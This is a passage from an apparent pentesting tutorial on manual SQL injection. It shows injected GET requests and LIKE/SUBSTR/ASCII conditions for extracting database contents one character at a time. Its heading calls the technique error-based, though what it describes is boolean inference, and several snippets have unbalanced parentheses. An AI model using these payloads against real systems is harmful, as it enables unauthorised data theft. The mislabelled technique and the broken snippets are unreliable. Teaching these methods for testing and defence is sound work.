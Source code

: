 </div></div>

<hr class="sr">

## Manual Error-based SQLi

<div class="row row-cols-md-2"><div>

You better be prepared, manual error-based SQLi may take QUITE some time, as you may have to iterate a lot of characters. Let's say you found the following GET form to be injectable. If you use "1", you can see a valid account, but if you return "0", you will see "page not found".

```none
GET /account?id=1
```

Then, your starting point will be

```none
GET /account?id=1' AND 1=0-- -
```

Now, even if the id is valid, you will see "page not found". If you use `1=1`, everything should work like before. That's how you will have to play with the request. When you got "page not found", it will mean that you condition failed, and bit-by-bit you will map the database. There are two well-known way to process

* Using LIKE <small>(work on text AND numbers)</small>

```none
WHERE text LIKE 'a%'
-- is text starting with 'a'
WHERE text LIKE '%0%'
-- do the text contains 0?
```

* Using SUBSTR, and ASCII/CAST

```none
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'
```

**Why?**: You would (obviously) want to go with LIKE, but it won't always work. For instance, the parameter may be transformed to lowerCase/upperCase according to what the programmer wants...

```none
-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```

</div><div>
